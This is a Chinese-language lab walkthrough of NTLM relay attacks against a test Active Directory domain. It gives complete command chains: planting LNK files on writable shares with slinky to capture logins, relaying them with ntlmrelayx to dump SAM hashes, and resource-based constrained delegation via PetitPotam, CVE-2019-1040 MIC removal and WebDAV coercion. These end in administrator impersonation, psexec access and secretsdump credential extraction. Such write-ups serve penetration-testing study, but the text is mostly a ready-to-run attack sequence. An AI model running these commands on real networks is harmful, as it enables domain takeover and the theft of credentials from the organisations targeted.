

NtlmRelay的一些场景利用
环境说明：
1 | 主域控：192.168.74.138 主机名：WIN-KD9M44NUV16 域名：lyy.com |
共享文件利用
利用nxc查询SMB签名为false的计算机列表
1 | nxc smb 192.168.74.138/25 --gen-relay-list nosigning.txt |
发现192.168.74.142没有开启SMB认证，尝试对其进行攻击
查询具有写入权限的共享文件
1 | ./nxc smb 192.168.74.139 -u user1 -p 'Wsx123.' -d lyy --shares |
在192.168.74.139上的share文件夹对user1存在写入权限
然后我们使用slinky在这个共享上创建一个LNK文件指向Kali，当任何人通过文件资源管理器（而不是命令行）进入该共享，LNK文件将被触发，用户的身份验证将被发送回Kali。
1 | nxc smb 192.168.74.139 -u user1 -p 'Wsx123.' -d lyy -M slinky -o NAME=Shortcut SERVER=192.168.74.135 |
同时，我们为任何进来的身份验证设置了一个ntlm relayx侦听器，如果收到任何身份验证，ntlmrelayx可以自动打开一个与该机器的socks连接，同时拥有进入共享的用户的权限。
1 | python ntlmrelayx.py -t 192.168.74.142 -smb2support -socks --no-dump --no-da --no-acl --no-validate-privs |
此时我们用administrator用户打开共享文件夹share就会在ntlmrelayx.py上得到一个命中，并与192.168.74.142机器打开一个socks连接，如图所示：
然后，我们可以编辑我们的proxychains配置文件，以允许我们访问到远程机器的socks连接，默认情况下使用端口1080：
在/etc/proxychains.conf中添加行socks4 127.0.0.1 1080
现在使用代理链，我们可以转储sam数据，因为administrator身份验证是管理员的。由于我们使用的是已经通过NTLM进行身份验证的实时socks隧道，此时使用nxc时我们不需要密码。
1 | proxychains ./nxc smb 192.168.74.142 -u administrator -p '' -d lyy --sam |
上面的场景中，ntlmrelayx用于将administrator管理员身份验证中继到1台机器，但实际上它可以将其中继到50台具有SMB签名的机器，打开了50个管理员socks连接供选择。
RBCD+petitpotam+CVE-2019-1040
添加机器账户
1 | python addcomputer.py lyy.com/user1:'Wsx123.' -computer-name abcdtest -computer-pass 123456 -dc-host WIN-KD9M44NUV16 -dc-ip 192.168.74.138 |

开启中继
1 | python ntlmrelayx.py -t ldap://192.168.74.138 --remove-mic --delegate-access --escalate-user abcdtest\$ |
--remove-mic：这个参数用于关闭 NTLM 中继攻击中的完整性检查。MIC（消息完整性检查）是用于验证消息在传输过程中未被篡改的机制。在某些情况下，攻击者可能会禁用 MIC 以绕过安全措施。--delegate-access：这个参数用于请求对目标的委派访问权限。在 Kerberos 认证中，委派允许一个服务以用户的身份进行身份验证，而无需用户直接参与。这可以用于横向移动或提升权限。--escalate-user abcdctest\$：这个参数后面跟着的是用户名，格式为域名\用户名。在这里，abdcdtest\$表示一个服务账户，攻击者试图使用这个账户来提升权限或执行其他操作。
利用 PetitPotam 发起对恶意机器的 SMB 请求
1 | python3 PetitPotam.py -d '' -u '' -p '' 192.168.74.135 192.168.74.143 |
获取ST
1 | python3 getST.py -dc-ip 192.168.74.138 lyy/abcdtest\$:123456 -spn cifs/WIN-6K645OMCGG8.lyy.com -impersonate administrator |
加载票据使用
1 | export KRB5CCNAME=administrator@cifs_WIN-6K645OMCGG8.lyy.com@LYY.COM.ccache |
-k：这个参数告诉psexec.py使用 Kerberos 认证。这意味着脚本将尝试使用 Kerberos 票证进行身份验证，而不是明文密码。-no-pass：这个参数表示不使用密码进行认证。通常与-k参数一起使用，告诉脚本你不需要提供密码，而是依赖于当前用户的 Kerberos 票证缓存。如果显示
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.则可能是kali和域控的时区不相同，改下kali的时区然后重启就好了。
RBCD+WebDAV
WebDAV，全称为Web Distributed Authoring and Versioning（网络分布式创作和版本控制），是一种基于HTTP的协议，用于使用户能够编辑和管理存储在远程服务器上的文件。在Windows上一般由WebClient运行
首先，我们检查域控机器，看看是否强制了LDAP签名或通道绑定，发现没有。
1 | nxc ldap 192.168.74.138 -u user1 -p Wsx123. -M ldap-checker |
这里为了测试，我们先开启一台机器的WebClient服务（WebClient 在 Workstation 系统中是默认安装的, 但需要手动启动服务, 而 Server 系统需要通过附加功能来安装并启用 WebDAV 组件）
1 | sc start WebClient |
利用nxc探测webdav服务，发现服务开启
1 | nxc smb 192.168.74.142 -u user1 -p Wsx123. -M webdav |
开启ntlmrelayx以发动RBCD攻击
1 | python ntlmrelayx.py -t ldap://192.168.74.138 --no-dump --no-da --no-acl --no-validate-privs --delegate-access |
默认情况下, WebClient 仅对本地内部网 (Local Intranet) 或受信任的站点 (Trusted Sites) 列表中的目标自动使用当前用户凭据进行 NTLM 认证，所以我们可以通过responder为我们提供一个机器名WIN-WAJ2BTA2JYJ
1 | responder -I eth1 |
利用PetitPotam强制192.168.74.142机器通过HTTP向Kali进行身份验证，然后将身份验证中继到192.168.74.138
1 | python PetitPotam.py -u user1 -p Wsx123. -d lyy.com WIN-WAJ2BTA2JYJ@80/randfile.txt 192.168.74.142 |
执行该命令后，ntlmrelayx将身份验证转发到禁用LDAP签名的192.168.74.138，我们在网络上增加一个随机名称为VRVYHXVT$的新机器账户。
在域控上可以看到这个新增的机器账户
接下来的过程和之前一眼，先获取票据，然后通过psexec连接控制
1 | python3 getST.py -dc-ip 192.168.74.138 lyy/VRVYHXVT\$:'KP\$unP+2c3zz*Aj' -spn cifs/DESKTOP-8N5L5EK.lyy.com -impersonate administrator |
1 | export KRB5CCNAME=administrator@cifs_DESKTOP-8N5L5EK.lyy.com@LYY.COM.ccache |
也可以通过secretsdump获取用户HASH
1 | python secretsdump.py -k -no-pass DESKTOP-8N5L5EK.lyy.com -dc-ip 192.168.74.138 -target-ip 192.168.74.142 |
参考：